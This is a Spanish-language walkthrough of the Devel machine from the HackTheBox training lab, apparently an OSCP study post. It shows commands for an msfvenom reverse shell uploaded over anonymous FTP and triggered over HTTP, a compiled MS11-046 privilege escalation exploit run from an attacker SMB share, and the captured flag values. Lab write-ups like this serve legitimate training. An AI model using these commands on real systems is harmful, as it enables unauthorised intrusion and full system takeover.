```yaml
---
layout: post
title: Devel - Walkthrough
date: 2020-08-14 20:44
description: Devel se presenta con un giro de tuerca para el compromiso inicial y escalamiento de privilegios basado en CVE.
toc: true
comments: false
tags: 
 - OSCP
 - Walkthrough
 - HackTheBox

---
```


## **Walkthrough de Devel**
---

![img]({{ '/assets/images/Devel/Devel_00.png' | relative_url }}){: .center-image }*(Descripción)*

---
Devel se presenta con un giro de tuerca para el compromiso inicial y escalamiento de privilegios basado en CVE.

---

## **Links**
 Devel en Hack The Box](https://www.hackthebox.eu/home/machines/profile/3)



## **Reconocimiento**
---

>**``nmap -A -T4 -p 21,80 10.10.10.5 -oA Devel``**

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 18:34 -03
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|8.1|Vista|7|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)

HOP RTT       ADDRESS
1   255.37 ms 10.10.14.1
2   255.51 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.60 seconds
```

Solo dos puertos abiertos con los servicios de FTP y HTTP. No tiene mucho sentido correr `Nikto` y `Dirb` sobre el servidor web. En principio es un IIS por defecto.

El servidor FTP es accesible con el usuario **Anonymous** y sin password como `nmap` lo demuestra. Existen dos malas configuraciones que hacen la vida más fácil al atacante:

 * Es posible subir archivos al servidor FTP autenticado como anonimo.
 * Casualmente el directorio home o root del FTP y HTTP es el mismo.

 Esto significa que se podría subir una shell reversa por FTP y dispararla al accederla a trevés de HTTP.


## **FTP**
---

Primero va una shell reversa con salida en un archivo `aspx`:

> **`` msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f aspx -o shell.aspx``**

y se sube por FTP:

```console
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2817 bytes sent in 0.00 secs (33.5813 MB/s)
ftp> quit
221 Goodbye.
```

De paso, por si todo sale bien también le subi `winPEAS` para ver la forma de escalar prvilegios:

```console
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put winPEAS.bat
local: winPEAS.bat remote: winPEAS.bat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
33480 bytes sent in 0.00 secs (40.7258 MB/s)
ftp> quit
221 Goodbye.
```

Ahora lo de siempre, en una terminal se abre un `nc` y en otra se accede al archivo para disparar la shell reversa:

> ``nc -lnvp 4444``

> ``curl http://10.10.10.5/shell.aspx``

yyyyyy entramos!

```console
c:\windows\system32\inetsrv>\
```
---

El usuario con el que logramos entrar es el de IIS así que no tiene muchos privilegios, ni siquiera para agarrar la flag del usuario.


``winPEAS`` no demostró mucha utiliadd en este caso más allá del comando ``systeminfo`` que reveló un **Windows 7 build 5600** sin parches.


## **Exploit**
---
Acá se complicó un poco encontrar la vulnerabilidad que permitiera escalar privilegios, es la sigueinte: **MS11-046**.

Para buscarla en `searchsploit`:

```console
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)                           | windows_x86/local/40564.c
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Una vez copiado el exploit se ve que es un código fuente en lenguaje C que necesita ser compilado. Para eso, hace falta instalar `mingw` en Kali de la siguiente manera:

> ``apt-get install mingw-w64``

y después para compilar el exploit:

> ``i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32``

No debería haber problemas con eso. Ahora, la copia del archivo a la máquina atacante es fácil pero la ejecución no lo fue. De casi cualquier forma que se trate de correr el ejecutable siempre va a tirar la advertencia ``This program cannot run un DOS mode``.

Una muy buena alternativa fue ejecutar el exploit desde un path UNC. Para eso, hace falta levantar un servidor SMB en Kali:

> `` cp /usr/share/doc/python-impacket/examples/smbserver.py .``

> ``./smbserver.py share smb``

donde `share` es como se va a llamar el recurso compartido y `smb` es el nombre del directorio local que se va a compartir. Obviamente, hay que copiar el el exploit a la carpeta `smb`.

A ejecutar:

```console
c:\windows\system32\inetsrv>\\10.10.14.23\share\MS11-046.exe
\\10.10.14.23\share\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

Listo, sosmos `System`, a buscar las flags:

## **Flags**
---

```console
c:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
```

---